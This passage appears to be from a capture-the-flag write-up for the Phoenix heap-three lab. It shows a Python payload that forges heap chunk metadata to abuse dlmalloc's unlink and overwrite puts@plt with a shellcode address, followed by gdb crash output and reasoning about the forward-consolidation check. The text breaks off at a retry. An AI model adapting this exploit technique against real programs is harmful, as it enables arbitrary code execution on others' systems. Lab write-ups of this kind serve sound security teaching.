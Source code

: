 ```python

# Third argument 
payload = payload + " " + "\xff\xff\xff\xff" # 4 bytes of chunk, since prev_size is -4
payload = payload + struct.pack("<I", 0x804c13c - 12) # TARGET, puts@plt 
payload = payload + struct.pack("<I", 0xf7e69000 + 16 + 8) # WORD TO WRITE, address of shellcode / buffer a

print(payload)
```

Let's run it:

```
(gdb) run $(python heap3.py)
Starting program: /opt/phoenix/i486/heap-three $(python heap3.py)

Program received signal SIGSEGV, Segmentation fault.

→  0x8049994 <free+317>       mov    DWORD PTR [eax+0xc], edx
```

We see yet another segfault during a familiar looking write operation. However, if we look closely, this is not the first unlink that
we were targeting (which was at `free+234`). Re-visiting the malloc implementation reveals what happens:

```C
if (nextchunk != av->top) {
	/* get and clear inuse bit */
	nextinuse = inuse_bit_at_offset(nextchunk, nextsize);
	set_head(nextchunk, nextsize);

	/* consolidate forward */
	if (!nextinuse) {
	  unlink(nextchunk, bck, fwd);
	  size += nextsize;
	}
...
``` 

After successfully consolidating backwards with our crafted values, this code is executed. If the `nextchunk`, which is calculated to be at
`p + p->size`, is not the last chunk and the next chunk is not in use, it is also consolidated via `unlink`. Since we control `p->size` for our
crafted chunk, we can set it so that we do not take this branch. It has to fulfill these conditions:

- Contains no null bytes
- `p + p->size` points to a chunk that is in use, i.e. the is previous in use flag is not set in the following chunk

The ideal candidate is chunk a. We can set `size` to -80 which tricks the malloc implementation into thinking the next chunk is chunk a.
Let's try again:
